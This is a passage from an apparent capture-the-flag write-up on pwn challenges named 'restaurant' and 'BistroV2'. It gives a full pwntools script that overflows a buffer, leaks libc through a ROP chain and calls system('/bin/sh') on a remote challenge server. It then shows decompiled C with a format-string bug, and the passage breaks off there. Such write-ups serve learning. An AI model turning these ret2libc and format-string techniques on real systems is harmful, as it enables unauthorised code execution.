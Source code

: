 Here is the final script all together:
```py
from pwn import *
libc = ELF("libc.so.6")
elf = ELF("./restaurant")

POPRDI = 0x00000000004008a3

p = remote('35.234.99.122' , 30407)

p.recvuntil(">> ")
p.sendline("3")
p.recvuntil("eat:")

p.sendline(b"A" * 112 + 8*b"B" + p64(POPRDI) + p64(elf.got.printf) + p64(elf.plt.puts) + p64(elf.sym.custom))

libc.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x64f70

print("Libc leak at", hex(libc.address))

p.recvuntil("eat:")
p.sendline(b"A" * 112 + 8*b"B" + p64(POPRDI) + p64(elf.bss(0x100)) + p64(elf.sym.gets) + p64(elf.sym.custom))
p.sendline()

p.sendline("/bin/sh\x00")


RET = 0x4008a4
p.sendline(b'A' * 112 + b'B' * 8 + p64(POPRDI) + p64(elf.bss(0x100)) + p64(RET) + p64(libc.sym["system"]))

p.sendline()
p.interactive()
```



## BistroV2

Bistrov2 was the third pwn challenge in the event.

It was really similar to `bistro`, but now in order to reach the `restaurant` function, we need to enter the correct password, which is random.

Here is how it looks in the code:

```c
fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Open failed");
    return -1;
  }
  else if ( read(fd, &passwd, 4uLL) == 4 )
  {
    close(fd);
    puts("Wellcome to the restaurant V2!");
    fflush(stdout);
    fgets(buff, 1024, stdin);
    printf(buff); // (1)
    puts("Show me your ticket to pass: ");
    fflush(stdout);
    __isoc99_scanf("%x", &inp);
    if ( passwd == inp )
```